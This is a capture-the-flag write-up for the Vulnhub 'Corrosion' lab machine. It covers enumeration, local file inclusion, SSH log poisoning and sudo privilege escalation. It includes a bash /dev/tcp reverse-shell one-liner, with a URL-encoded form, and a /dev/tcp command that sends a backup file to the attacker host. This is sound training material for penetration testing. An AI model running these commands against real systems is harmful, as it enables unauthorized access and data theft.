

# Corrosion - Writeup

Corrosion is an easy machine from Vulnhub by Proxy Programmer.

Link to the machine: [https://www.vulnhub.com/entry/corrosion-1,730/](https://www.vulnhub.com/entry/corrosion-1,730/)
## Identify The Target

I am using this machine on host-only. 
```
fping -agq 10.10.10.0/24

10.10.10.1
10.10.10.2
10.10.10.10
```

## Enumeration

We need to scan the target for open ports.
```
nmap -sV -sC -oN nmap.log 10.10.10.10

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Ubuntu 5ubuntu1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0c:a7:1c:8b:4e:85:6b:16:8c:fd:b7:cd:5f:60:3e:a4 (RSA)
|   256 0f:24:f4:65:af:50:d3:d3:aa:09:33:c3:17:3d:63:c7 (ECDSA)
|_  256 b0:fa:cd:77:73:da:e4:7d:c8:75:a1:c5:5f:2c:21:0a (ED25519)
80/tcp open  http    Apache httpd 2.4.46 ((Ubuntu))
|_http-server-header: Apache/2.4.46 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 08:00:27:E5:F2:76 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumerate the directories

When navigates to webserver we got **apache default page**.

Run gobuster

```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -e -q -t 50 -u http://10.10.10.10 | tee go.log

http://10.10.10.10/tasks                (Status: 301) [Size: 310] [--> http://10.10.10.10/tasks/]
http://10.10.10.10/blog-post            (Status: 301) [Size: 314] [--> http://10.10.10.10/blog-post/]    	    
http://10.10.10.10/server-status        (Status: 403) [Size: 276]
```

We have `/tasks` and `blog-post`,  Let's vist them.


We see ``change permission for auth log``. It gives us an idea that We need to do **SSH log poisoning**. For that, we need local file inclusion.

So, Let's check `/blog-post`.


Bruteforce directories.
```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -e -q -u http://10.10.10.10/blog-post 

http://10.10.10.10/blog-post/archives      (Status: 301) [Size: 323] [--> http://10.10.10.10/blog-post/archives/]
http://10.10.10.10/blog-post/uploads       (Status: 301) [Size: 322] [--> http://10.10.10.10/blog-post/uploads/]
```


Archives directory had a php file named `randylogs.php`. But nothing in there.

Fuzzing it for a LFI. and we found the parameter.


 
Read the `/etc/passwd` file from the server.


In `/tasks/tasks_todo.txt`, The hint said: `Change permissions for auth log`. That means the `auth log` file doesn’t have proper permissions. 
So, we can read it.


## Log poisoning

> `auth.log` logs all the activity of SSH login attempts.

> `Log Poisoning` is the attempts to **inject** malicious input to the server log.


Since the file is PHP, if we inject PHP code, the server will execute it.

We'r going to use ssh to inject a PHP code as user name, and that will take input from user and **execute commands**.


Refresh `randylogs.php` page, and we injected our code.



Executing commands: `http://10.10.10.10/blog-post/archives/randylogs.php?file=id`


Let's get reverse shell: [https://www.revshells.com/](https://www.revshells.com/)

`nc -lnvp 5555`

`bash -c 'bash -i >& /dev/tcp/10.10.10.2/5555 0>&1'`

URL-encoded: `bash%20-c%20'bash%20-i%20%3E&%20/dev/tcp/10.10.10.2/5555%200%3E&1'%0A`

And we have a shell.


After a while, i found `/var/backups/user_backup.zip` , Let's download it.

open a netcat listener on the local machine: `nc -lnvp 5566 > user.zip`.

On the target machine: `cat user_backup.zip > /dev/tcp/10.10.10.2/5566`.

we have to crack the password of the file and extract the contents.


We have the password of the user randy. Logged in as `randy`.


We got the user.txt.


## Privilege Escalation
 
checking the sudo permissions


Here, we have got a binary that the user can run as sudo, with SUID bit ON, which means this binary will be running as root.

But, root owns this file that disallows us to edit the file.


user owns the directory which mean we can replace the content of the binary. Hence, we can use the **C** source file to write a code.


Let's modify the **C** file.


Compile it, and execute it. 
```
gcc c.c -o easysysinfo
sudo /home/randy/tools/easysysinfo
```
We'r root. 


